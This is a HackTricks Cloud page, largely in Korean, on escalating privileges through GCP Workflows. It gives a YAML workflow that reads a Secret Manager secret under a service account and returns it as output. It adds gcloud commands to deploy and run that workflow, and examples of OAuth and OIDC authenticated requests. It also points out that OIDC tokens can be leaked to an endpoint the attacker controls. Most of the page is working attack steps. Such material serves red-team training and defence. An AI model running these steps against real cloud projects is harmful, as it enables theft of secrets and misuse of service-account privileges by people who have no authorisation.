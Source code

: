 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

기본 정보:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

내가 아는 한, Workflow에 연결된 SA 자격 증명을 포함하는 메타데이터 엔드포인트에 접근하여 쉘을 얻는 것은 불가능하다. 그러나 Workflow 내에서 수행할 작업을 추가하여 SA의 권한을 악용하는 것은 가능하다.

커넥터의 문서를 찾는 것이 가능하다. 예를 들어, 이것은 [**Secretmanager 커넥터의 페이지**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** 사이드 바에서 여러 다른 커넥터를 찾을 수 있다.

그리고 여기 비밀을 출력하는 커넥터의 예가 있다:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI에서 업데이트:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
만약 `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`와 같은 오류가 발생하면, **잠시 기다렸다가 다시 시도하세요**.

웹 접근 권한이 없는 경우, 다음을 사용하여 Workflow의 실행을 트리거하고 볼 수 있습니다:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
이전 실행의 출력을 확인하여 민감한 정보를 찾을 수도 있습니다.
{% endhint %}

권한이 없기 때문에 `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...`와 같은 오류가 발생하더라도, 워크플로우는 생성되었습니다.

### OIDC 토큰 유출 (및 OAuth?)

[**문서에 따르면**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) 워크플로우 단계에서 OAuth 또는 OIDC 토큰과 함께 HTTP 요청을 보낼 수 있습니다. 그러나 [Cloud Scheduler](gcp-cloudscheduler-privesc.md)와 마찬가지로, Oauth 토큰이 포함된 HTTP 요청은 호스트 `.googleapis.com`으로 보내야 합니다.

{% hint style="danger" %}
따라서, **사용자가 제어하는 HTTP 엔드포인트를 지정하여 OIDC 토큰을 유출할 수 있습니다**. 그러나 **OAuth** 토큰을 유출하려면 **그 보호를 우회해야** 합니다. 그러나 여전히 **연결기 또는 OAuth 토큰을 사용한 HTTP 요청을 통해 SA를 대신하여 GCP API에 연락할 수 있습니다.**
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

이 권한을 사용하면 `workflows.workflows.create` 대신 이미 존재하는 워크플로를 업데이트하고 동일한 공격을 수행할 수 있습니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
